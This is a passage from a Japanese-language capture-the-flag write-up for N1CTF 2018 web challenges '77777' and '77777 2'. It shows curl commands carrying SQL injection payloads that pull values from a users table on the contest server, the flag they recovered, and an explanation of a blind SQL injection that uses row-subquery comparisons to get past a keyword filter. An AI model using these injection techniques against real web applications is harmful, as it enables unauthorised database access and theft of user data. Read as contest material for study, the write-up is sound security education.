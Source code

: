 ```
                                                <grey>My Points</grey> | -1819045731<br/>
                                                <grey>Designer of the Year</grey> | 2018.<br/>
$ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 9, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points

                                          <h4><i class="icon-trophy"></i> My Points</h4>
                                        <p class="sm">
                                                <grey>My Points</grey> | -1952867698<br/>
                                                <grey>Designer of the Year</grey> | 2018.<br/>
$ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 13, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points

                                          <h4><i class="icon-trophy"></i> My Points</h4>
                                        <p class="sm">
                                                <grey>My Points</grey> | -842216243<br/>
                                                <grey>Designer of the Year</grey> | 2018.<br/>
$ curl -g "http://47.75.14.48/" -d "flag=hogefuga&hi=-(conv(hex((select substr(group_concat(c), 17, 4) from (select 1 a, 2 b, 3 c, 4 d union select * from users) x)), 16, 10))" 2>/dev/null | grep -1 Points

                                          <h4><i class="icon-trophy"></i> My Points</h4>
                                        <p class="sm">
                                                <grey>My Points</grey> | -51<br/>
                                                <grey>Designer of the Year</grey> | 2018.<br/>
```

```
N1CTF{helloctfer23333}
```

## [Web 208] 77777 2

> Contestants won't influence each other while solving the challenge.
> http://47.52.137.90:20000

77777 とほとんど同じようですが、どうやらフィルターが厳しくなったようです。調べると、以下のような文字列が使えないことが分かりました。

```
in union concat or where count 2 3 4 5 9 0x limit as j <
```

`in` が禁止されているので `join` や `having` も使うことができません。また、今回は `union` が禁止されてしまったので先ほどの解法は使えません。

この状態でも、[行サブクエリ](https://dev.mysql.com/doc/refman/5.6/ja/row-subqueries.html)を使って複数のカラムを比較することで ([こちらの説明](https://dev.mysql.com/doc/refman/5.7/en/comparison-operators.html#operator_greater-than)にあるように左のカラムから順番に比較されることを利用して) Blind SQLi の要領でレコードを読み出すことができそうです。

具体的な方法を考えていきます。`users` には 4 つのカラムが存在しているので、`--((1, 0x56, 0, 0) > (select * from users))` のようにして `users` のレコードと比較することができます。この結果は false だったので、2 番目のカラムの 1 文字目の文字コードは `V` 以下であると分かります。`0x56` を `0x57` に変えると結果が true になったので、2 番目のカラムの 1 文字目は `V` であると分かります。

まず、以下のコードでユーザ名が `VENENO_ADMIN` であると分かりました。
